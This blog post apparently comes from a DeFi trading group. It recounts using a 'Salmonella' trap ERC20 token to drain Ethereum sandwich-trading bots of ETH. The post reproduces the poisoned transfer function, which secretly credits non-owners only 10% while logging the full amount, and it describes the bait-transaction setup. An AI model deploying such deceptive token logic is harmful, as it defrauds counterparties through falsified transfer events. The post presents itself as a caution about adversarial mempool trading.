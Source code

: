 ## Wrecking sandwich traders for fun and profit

Those who follow the action in Ethereum’s mempool will no doubt be aware of the sudden recent boom in [sandwich trading](https://medium.com/coinmonks/demystify-the-dark-forest-on-ethereum-sandwich-attacks-5a3aec9fa33e). For the uninformed, sandwich trading is a very interesting strategy which involves placing a trade before AND after a victim trade, in order to exploit the slippage that has been created.

In layman's terms, you see that someone will buy an asset, so you buy it first to artificially inflate the price, before selling afterwards at a profit.

This strategy used to be extremely risky, as Ethereum carries no guarantee that your transactions will succeed, and having only one transaction succeed can leave you the bag holder of a lot of worthless tokens. The mempool is a fun place, but it’s not a safe place.

However, a recent rise in MEV services such as [FlashBots](https://medium.com/flashbots/frontrunning-the-mev-crisis-40629a613752) now allows traders to create “sandwich bundles”, where either all 3 transactions execute, or none of them execute. At the same time, there has also been a rise in miner trading teams, who mine the sandwich bundles directly into their blocks.

These two innovations together led to a cavalier attitude on trading forums as sandwich traders rejoiced in the profits of their new “risk free” alpha. As trad(itional) finance morphs into chad finance, it's easy to get sucked up in the excitement.

However, nothing is risk-free on the blockchain, and exploitative trading strategies such as sandwich trading and front-running actually _increase_ in risk the more the engineer attempts to generalise their ability to capture opportunities.

To illustrate to novice traders the risks of playing in the mempool, I have conducted a demonstration of a new trading alpha I call “Salmonella”, which involves intentionally exploiting the generalised nature of front-running setups. The goal of sandwich trading is to exploit the slippage of unintended victims, so this strategy turns the tables on the exploiters.

A quick analysis of the blockchain revealed that an outfit named “[Ethermine](https://ethermine.org/)” is currently responsible for the bulk of sandwich trading, and had amassed a [couple of hundred Ethereum](https://etherscan.io/address/0xf6da21e95d74767009accb145b96897ac3630bad) through their sandwich trading sender address. Having settled on my initial target, I got to work analyzing their setup.

The Ethermine setup was/is fairly basic at the time of writing, relying on hitting the [Uniswap router](https://etherscan.io/address/0x7a250d5630b4cf539739df2c5dacb4c659f2488d) to execute trades. Their trading history was littered with reverts and their smart contract itself was holding a variety of tokens from failed trades. With this in mind I got to work creating my Salmonella contracts.

The premise of the Salmonella contract is very simple. It’s a regular ERC20 token, which behaves exactly like any other ERC20 token in normal use-cases. However, it has some special logic to detect when anyone other than the specified owner is transacting it, and in these situations it only returns 10% of the specified amount - despite emitting event logs which match a trade of the full amount.

The poisonous transfer function:
```
function _transfer(address sender, address recipient, uint256 amount) internal virtual {
  require(sender != address(0), "ERC20: transfer from the zero address");
  require(recipient != address(0), "ERC20: transfer to the zero address");
  uint256 senderBalance = _balances[sender];
  require(senderBalance >= amount, "ERC20: transfer amount exceeds balance");
  if (sender == ownerA || sender == ownerB) {
    _balances[sender] = senderBalance - amount;
    _balances[recipient] += amount;
  } else {
    _balances[sender] = senderBalance - amount;
    uint256 trapAmount = (amount * 10) / 100;
    _balances[recipient] += trapAmount;
  }
  emit Transfer(sender, recipient, amount);
}
```

I deployed the [Salmonella contract](https://etherscan.io/token/0x610b8B78da143fC1E38b36C4EA0f68F86cc3b4f4), then set up a simple [Uniswap pool](https://etherscan.io/address/0x5e0453a08550d10effffabdc370ae9ae3d7edd7e) containing Salmonella and Ethereum. I then replicated the detection maths for sandwich trading using binary search, to create a series of bait transactions which to Ethermine and other sandwich traders would look like juicy opportunities.

Finally, I coded an executing architecture, giving me the ability to quickly cancel trades, change gas prices, and reset the state of my trap Uniswap pool.

After a couple of strong coffees I got to work, launching a series of bait transactions, carefully pricing just below market gas to keep the transactions in the mempool, but cancelling if the price started dropping.

Within a few hours I had my [first hit](https://etherscan.io/tx/0x2dacb3fa8f32811ce832c0b59b8e4cab35e55655058974cbb71824d2039790c7), scooping over 68 ETH from their bots attempts to wreck my bait. Another few hours passed and I scooped a [further 35 ETH](https://etherscan.io/tx/0x515d28f2e515d549a51f804f5f205db5bb8680e5d54ed335593fe3b6b119a380) from their contract.

Happy to call it a night, I casually had a browse of my Salmonella smart contract, only to find I had emptied about [17 other Sandwich trading contracts](https://etherscan.io/token/0x610b8b78da143fc1e38b36c4ea0f68f86cc3b4f4#balances) in the course of my experiment, for much smaller values than Ethermine of course.

I continued this strategy for a couple of days, emptying a bunch more sandwich contracts along the way, but the alpha quickly decayed as the wrecked sandwich traders adjusted their setups to better detect my poisonous tokens.

All in all a fun experiment, which I now present to the community as a caution. Being a DeFi degenerate is a lot of fun, but be careful in your trading - because this game is highly adversarial and we play for keeps.

See you in the mempool!


----------
If you enjoyed this DeFi-Cartel writeup and are a serious trader, miner, or other player in the space, we are always open to potential revenue-generating ventures. Feel free to [get in touch](https://t.me/nathan_LCS) if you have a great idea on how we might collaborate.